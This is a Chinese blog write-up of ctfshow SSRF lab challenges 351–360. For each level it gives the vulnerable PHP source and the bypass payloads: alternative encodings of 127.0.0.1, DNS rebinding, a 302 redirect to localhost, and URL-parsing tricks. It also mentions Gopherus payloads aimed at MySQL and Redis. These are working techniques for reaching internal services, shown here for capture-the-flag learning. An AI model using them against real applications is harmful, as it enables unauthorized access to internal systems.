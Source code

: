 ```yaml
---
title: ctfshow-ssrf
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pp1ove
authorDesc: 一个好奇的人
categories: 技术
comments: false
date: 2021-01-28 20:39:17
tags: ssrf
keywords:
description:
photos: \img\article\5.png

---
```


## 351

```PHP
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?
```

## 352-353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

要求必须是http或https

然后过滤127.0.0.1/localhost

有很多方法

```
http://2130706433/flag.php   十进制绕过
http://0x7F000001/flag.php
http://017700000001/flag.php
http://0/flag.php
http://127.0.1/flag.php
http://127.1/flag.php
http://1il88.cn/r6NOs     短网址，没有成功
http://127.0。0。1/flag.php 没有成功
http://127.0.0.①       封闭式字符,没有成功
```

## 354

搬运一下

DNS-Rebinding攻击绕过

```
url=http://r.xxxzc8.ceye.io/flag.php 自己去ceye.io注册绑定127.0.0.1然后记得前面加r
```

302跳转绕过也行，在自己的网站主页加上这个

```
<?php
header("Location:http://127.0.0.1/flag.php");
```

```
我自己的域名A记录设为了127.0.0.1
```

或者有个现成的A记录是127.0.0.1的网站

```
url=http://sudo.cc/flag.php
```

## 355-356

对host长度进行了限制，host长度小于5

```
http://0/flag.php
```

## 357

关键代码，不能是一些私有地址

```
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}
```

- FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）
- FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）
- FILTER_FLAG_NO_PRIV_RANGE - 要求值是 RFC 指定的私域 IP （比如 192.168.0.1）
- FILTER_FLAG_NO_RES_RANGE - 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。

用web354说过的DNS-Rebinding与302跳转即可解题

## 358

限制是这个

```
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

blackhat议题加上url解析特性php的curl默认是@后面的部分加上?url解析的时候会把他当成url解析的get请求参数

```
url=http://ctf.@127.0.0.1/flag.php?.show
```

## 359-360

源码里面有这样一段内容

<img src="ctfshow-ssrf/image-20210129142804217.png" alt="image-20210129142804217" style="zoom:200%;" />

用gopher协议打mysql

使用gopherus生成payload

![image-20210129145201913](ctfshow-ssrf/image-20210129145201913.png)

将_后面的再次url编码,传入check.php里面

360打redis,不多说,差不多的步骤